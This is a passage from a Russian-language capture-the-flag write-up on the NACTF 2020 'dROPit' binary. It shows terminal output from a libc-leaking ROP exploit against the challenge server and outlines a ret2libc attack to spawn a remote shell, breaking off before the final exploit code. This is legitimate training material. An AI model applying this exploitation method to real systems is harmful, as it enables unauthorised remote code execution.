 Запускаем эксплойт:

```
burgos1337@LAPTOP-4VD7KB18:/mnt/c/Users/Lenovo/Desktop/NACTF 2020/dROPit$ python3 dropit_libc_leak.py
[*] '/mnt/c/Users/Lenovo/Desktop/NACTF 2020/dROPit/dropit'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './dropit'
[*] pop rdi gadget: 0x401203
[*] puts@got: 0x403fc8
[*] puts@plt: 0x401030
[*] main: 0x401146
[+] Opening connection to challenges.ctfd.io on port 30261: Done
[*] leaked libc address: 0x7f630d713d90
burgos1337@LAPTOP-4VD7KB18:/mnt/c/Users/Lenovo/Desktop/NACTF 2020/dROPit$
```

Готово! Теперь с помошью ресурса [libc.rip](https://libc.rip/) устанавливаем, что требуемая версия библиотеки - `libc6_2.32-0ubuntu2_amd64`:

![Image alt](https://github.com/Burgos1337/capture-the-flag-writeups/blob/master/2020/NACTF%202020/dROPit/assets/libc-rip.jpg)

## Финальный шаг эксплуатации - реализация атаки `ret2libc`

После скачивания библиотеки нам остается извлечь из неё адреса строки `/bin/sh`, функции `system` и гаджета`RET` (для снижения риска получения ошибки `bus error` при 
некорректном выравнивании стека) и с помощью всё того же `ROP`-гаджета вызвать шелл на удалённом сервере - дорабатываем наш эксплойт:
